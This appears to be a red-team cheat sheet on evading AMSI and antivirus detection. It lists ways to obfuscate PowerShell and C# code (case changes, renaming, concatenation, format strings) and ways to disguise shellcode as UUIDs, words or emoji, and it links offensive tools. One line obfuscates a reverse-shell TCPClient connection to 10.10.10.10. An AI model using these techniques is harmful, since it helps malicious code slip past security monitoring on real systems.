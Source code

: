 #### How amsi evaluates PowerShell commands
- The code is evaluated when its readable by the scripting engine
- This is what allows us to still be able to obfuscate our code
```
# This
powershell -enc VwByAGkAdABlAC0ASABvAHMAdAAoACIASABlAGwAbABvACAAVwBvAHIAbABkACIAKQA=

# Becomes
Write-Host("Hello World")

# But This
Write-Host("He" + "llo" + "World")

# Does not become
Write-Host("Hello World")
```

### Change the following in scripts/code
#### Hash of file/code
 - Change Capitalization 
	 - PowerShell ignores capitalization, AMSI ignored capitalization, but changing your hash is best practice.
		 -   `$variablename = "amsicontext"` to `$VaRiAbLeNaMe = "amsicontext"`
	- C# is case sensitive, but changing the capitalization changes the hash. (Must change every entry of the variable!)
- Remove comments
	- Remove all comments out of the script/code
		- https://powershell.one/isesteroids/quickstart/overview
		- https://github.com/yoda66/PowerStrip

#### Byte strings
- Change variable names
   - `$variablename = "amsicontext"` to `$LoremIpsum = "amsicontext"`
   - Dont randomize all the things
      - Changing default variable/func. names is good, but random characters is bad. Use two-word pairs (Example: DragonBerrySmasher)
- Concatenation
   - `"amsicontext"` to `"am" + "si" + "con" + "te" + "xt"`
- Variable insertion
   - `$variablename = 'context'` into `$variablename2 = "Amsi$variablename"`
   - C# `string variablename = "context"; string variablename2 = $"amsi{variablename}";`
   - Format string
      - `$variablename = "amsi{0}text -f "con"`
      - `$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);` to `$client = New-Object ("{0}{1}" -f 'SySteM.Ne', 'T.SoCkEts.TCPCliEnt')("10.10.10.10",80);`
      - C# `string variablename = "context"; string variablename2 = String.Format("amsi{0}",variablename);`
- Potentially the order of execution
- Obfuscating shellcode
   - Shellcode as UUID
      - https://github.com/boku7/Ninja_UUID_Runner/blob/main/bin2uuids.py
   - Reverse shellcode bytes
   - Break into chunks
   - Divide code into two arrays - even & odd bytes
   - Steganography
   - `BigInteger() h/t`
   - Shellcode as english words
      - https://github.com/hardwaterhacker/jargon
   - Shellcode as Emoji
      - https://github.com/RischardV/emoji-shellcoding
- Lower entropy
   - Languages are not random
   - Create an array with a dictionary and compile it with the code (disable compiler optimization)